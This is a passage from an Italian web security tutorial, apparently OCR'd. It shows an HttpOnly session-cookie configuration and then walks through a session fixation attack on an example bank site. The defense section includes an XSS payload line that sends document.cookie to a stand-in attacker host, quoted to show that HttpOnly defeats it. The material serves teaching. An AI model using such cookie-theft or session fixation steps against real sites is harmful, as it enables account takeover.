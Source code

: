 ### 18.2.2 - Defense: HttpOnly Cookie

**✅ SOLUZIONE: HttpOnly flag**

```javascript
const session = require('express-session');

app.use(session({
    secret: 'secret-key-change-me',
    resave: false,
    saveUninitialized: false,
    cookie: {
        httpOnly: true,  // ✅ JavaScript NON può leggere cookie
        secure: true,    // ✅ Solo HTTPS
        sameSite: 'strict', // ✅ Anti-CSRF
        maxAge: 3600000  // 1 ora
    }
}));
```

**HTTP Response con HttpOnly:**
```http
HTTP/2 200 OK
Set-Cookie: session=abc123xyz; HttpOnly; Secure; SameSite=Strict; Path=/

<!-- JavaScript non può accedere a questo cookie -->
```

**Test JavaScript:**
```javascript
console.log(document.cookie);
// Output: "" (vuoto)
// Cookie HttpOnly non visibile a JavaScript!

// XSS payload inefficace:
fetch('http://attacker.com/steal?cookie=' + document.cookie);
// Invia stringa vuota → attacco fallito!
```

---

## 18.3 Session Fixation

### 18.3.1 - Attacco

**Scenario:** Attaccante **forza** vittima a usare session ID **noto all'attaccante**.

**Flusso attacco:**
```
1. Attaccante visita bank.com, ottiene: session=attacker123

2. Attaccante invia link a vittima:
   http://bank.com/?session=attacker123
   o
   http://bank.com/login
   + Cookie: session=attacker123 (set via XSS/script)

3. Vittima clicca link e fa login su bank.com
   Server accetta session=attacker123 (già esistente)
   
4. Dopo login, sessione attacker123 è ora AUTENTICATA

5. Attaccante usa session=attacker123
   → Accesso come vittima autenticata!
```
